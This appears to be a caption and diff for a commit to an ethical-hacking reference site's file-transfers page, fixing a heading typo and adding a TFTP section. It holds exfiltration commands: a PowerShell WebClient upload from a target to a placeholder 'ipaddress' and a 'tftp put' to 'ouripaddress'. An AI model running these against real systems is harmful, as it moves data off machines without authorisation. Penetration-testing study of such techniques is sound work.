

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/file_transfers.md, in a window 1280 px wide and 1400 px high, scrolled down 463 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update file_transfers.md

````diff
--- a/source/file_transfers.md
+++ b/source/file_transfers.md
@@ -41,7 +41,7 @@ exe2hex -x file.exe -p fild.cmd
 cat file.cmd | xclip -selection clipboard
 ```
 
-# File Donwloads
+# File Downloads
 
 ## Local upload PHP
 
@@ -61,3 +61,13 @@ From target:
 ```
 powershell (New-Object System.Net.WebClient).UploadFile('http://ipaddress/upload.php', 'filename')
 ```
+
+### TFTP
+
+```
+sudo atftpd --daemon --port 69 /tftp
+```
+Credential-less transfer!
+```
+tftp -i ouripaddress put filename
+```
````
